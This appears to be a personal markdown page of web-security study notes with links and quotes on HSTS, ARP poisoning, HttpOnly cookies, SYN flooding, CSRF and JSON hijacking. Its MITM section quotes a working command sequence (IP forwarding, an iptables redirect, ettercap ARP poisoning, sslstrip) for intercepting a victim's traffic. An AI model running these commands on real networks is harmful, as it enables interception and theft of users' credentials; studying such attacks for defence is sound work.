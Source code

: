 * http://blog.codeclimate.com/blog/2013/03/27/rails-insecure-defaults/

__HSTS header__
https://gist.github.com/bartekn/6924685

`Strict-Transport-Security: max-age=31536000`

> HTTP Strict Transport Security (HSTS) is an opt-in security enhancement that is specified by a web application through the use of a special response header. Once a supported browser receives this header that browser will prevent any communications from being sent over HTTP to the specified domain and will instead send all communications over HTTPS. It also prevents HTTPS click through prompts on browsers.

### MITM attacks

> First I turned IP forwarding on so that my computer can act as a router and route traffic to other destinations: 
attacker@linux:/#: echo 1 > /proc/sys/net/ipv4/ip_forward 
I setup setup my firewall tables to NAT all incoming TCP traffic received over port 80 to be redirected out port 10000:
attacker@linux:/#: iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 10000 
Then, I used ettercap to perform ARP poisoning on the victim's router so that all traffic being sent to my victim will first be sent to me: 
attacker@linux:/#: ettercap -Tq -i eth0 -M arp:remote /victim's IP/ /router's IP/ 
I used the python program SSLstrip that Moxie Marlinspike created to make the HTTPS to HTTP substitutions and keep track of the changes make: 
attacker@linux:/#: python sslstrip.py -a

__ARP__

http://www.watchguard.com/infocenter/editorial/135324.asp

1. An ARP Request. Computer A asks the network, "Who has this IP address?"
2. An ARP Reply. Computer B tells Computer A, "I have that IP. My MAC address is [whatever it is]."
3. A Reverse ARP Request (RARP). Same concept as ARP Request, but Computer A asks, "Who has this MAC address?"
4. A RARP Reply. Computer B tells Computer A, "I have that MAC. My IP address is [whatever it is]"

ARP poisoning
* The hacker begins by sending a malicious ARP "reply" (for which there was no previous request) to your router. ( router thinks the hacker's computer is your computer)
* Next, the hacker sends a malicious ARP reply to your computer, associating his MAC Address with 192.168.0.1.  (your machine thinks the hacker's computer is your router)

Aircrack tool: 
* http://www.aircrack-ng.org/
* http://www.irongeek.com/i.php?page=videos/bsideslasvegas2013/2-2-6-the-slings-and-arrows-of-open-source-security-tod-beardsley-and-mister-x

__HttpOnly Cookie__

https://www.owasp.org/index.php/HttpOnly

Attempts to avoid XSS to access cookie even if a user is exposed to the XSS.

### DDOS

__SYN Flooding__ - http://tools.ietf.org/html/rfc4987 

### CSRF 

* http://haacked.com/archive/2009/04/02/anatomy-of-csrf-attack.aspx/

__JSON response__
http://haacked.com/archive/2009/06/25/json-hijacking.aspx/
> The bad guy has tricked the victim’s browser to issue a request for the JSON containing sensitive information using the browser’s credentials (aka the auth cookie). This loads the JSON array as executable JavaScript and now the bad guy has access to this data.
> Well the bad guy is changing the prototype for Object using the special __defineSetter__ method which allows overriding what happens when a property setter is being called.

